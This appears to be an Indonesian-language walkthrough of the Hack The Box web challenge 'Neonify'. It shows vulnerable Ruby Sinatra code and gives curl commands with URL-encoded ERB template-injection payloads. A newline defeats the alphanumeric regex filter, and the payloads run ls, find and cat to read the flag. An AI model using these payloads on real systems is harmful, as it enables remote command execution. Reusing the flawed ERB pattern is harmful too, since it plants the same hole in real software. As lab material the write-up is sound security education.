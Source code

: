 # Neonify

Target	= 188.166.175.58
IP		= 32762

Jika kita buka websitenya, terlihat seperti template command injection(?). Kita dapat coba untuk memasukkan input, namun hampir semua tidak membuahkan hasil, meskipun sudah menggunakan url encoding. Untuk itu kita dapat langsung cek ke file download. Jika kita cek, kita akan menemukan bahwa web ini menggunakan `ruby`. Wow... sesuatu yang baru untuk saya ;)

Jika kita cek source code di `web_neonify/challenge/app/controllers/neon.rb`, kita akan menemukan bahwa website ini menerapkan filter pada server side.
```ruby
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```
Dari code diatas, dapat dilihat bahwa filter input menggunakan regex yang mana hanya menerima input alphanumeric saja, dan jika tidak lolos filter, maka akan keluar output `"Malicious Input Detected"`. Selanjutnya jika input yang kita masukkan lolos dari filter, maka input tersebut akan di teruskan ke `index.erb`
```ruby
<!DOCTYPE html>
<html>
<head>
    <title>Neonify</title>
    <link rel="stylesheet" href="stylesheets/style.css">
    <link rel="icon" type="image/gif" href="/images/gem.gif">
</head>
<body>
    <div class="wrapper">
        <h1 class="title">Amazing Neonify Generator</h1>
        <form action="/" method="post">
            <p>Enter Text to Neonify</p><br>
            <input type="text" name="neon" value="">
            <input type="submit" value="Submit">
        </form>
        <h1 class="glow"><%= @neon %></h1>
    </div>
</body>
</html>
```
Input yang lolos filter, akan dimasukkan ke `<h1 class="glow"><%= @neon %></h1>`, contoh jika kita melakukan input "testing", maka nantinya akan dipassing ke `index.erb` menjadi seperti berikut `<h1 class="glow"><%= @neon=testing %></h1>`. Untuk itu kita dapat melakukan bypass, kita dapat menggunakan SSTI (Server Side Template Injection) yang ada di internet. Dalam hal ini, kita akan mencoba bypass dengan ``<%= `ls /` %>``. Disini saya akan menggunakan `curl` untuk mengirimkan request.
```bash
curl http://target:port -d '<%= `ls /` %>'
...
Invalid query parameters: invalid %-encoding (&amp;lt;%)
```
Oke, tentunya perlu url encoding :D
```bash
curl http://188.166.175.58:32762/ -d '%27%3C%25%3D%20%60ls%20%2F%60%20%25%3E%27'
...
        <h1 class="glow">Malicious Input Detected</h1>
    </div>
</body>
</html>
```
Hmmm, terdeteksi malicious input. Hal ini terjadi karena variabel `neon` mendapat passing input original ini ``<%= `ls /` %>``, untuk dapat bypass, kita dapat menggunakan new line (tapi bukan `\n`) setelah memmberi input value pada variabel `neon`. Sehingga, nantinya akan seperti ini
```ruby
        <h1 class="glow"><%= neon=a
<%= `ls /` %>%>
</h1>
```
Sehingga, jika kita terapkan akan seperti berikut
```bash
curl http://188.166.175.58:32762/ -d 'neon=a                                
%27%3C%25%3D%20%60ls%20%2F%60%20%25%3E%27'
...
...
        </form>
        <h1 class="glow">
'app
bin
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
'</h1>
    </div>
</body>
</html>
```
Ohohoho, berhasil :D. Selanjutnya, untuk mencari flag, kita dapat menggunakan command ``<%= `find / 2>/dev/null | grep -i flag` %>``, tentunya URL encoded.
```bash
curl http://188.166.175.58:32762/ -d 'neon=a
%3C%25%3D%20%60find%20%2F%202%3E%2Fdev%2Fnull%20%7C%20grep%20%2Di%20flag%60%20%25%3E'
...
...
<h1 class="glow">a
/usr/local/lib/ruby/2.7.0/bundler/feature_flag.rb
/usr/local/lib/ruby/2.7.0/racc/debugflags.rb
/usr/include/asm/processor-flags.h
/usr/include/linux/tty_flags.h
/usr/include/linux/kernel-page-flags.h
/sys/devices/pnp0/00:00/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/app/flag.txt
</h1>
...
```
Dari banyak "flag" yang tertangkap, yang paling memungkinkan jadi flag asli adalah `/app/flag.txt`, kita dapat langsung mencobanya
```bash
curl http://188.166.175.58:32762/ -d 'neon=a        
%3C%25%3D%20%60cat%20%2Fapp%2Fflag%2Etxt%60%20%25%3E'
...
...
<h1 class="glow">a
HTB{xxx}</h1>
    </div>
```
Benar hehe :D.
Selamat Mencoba.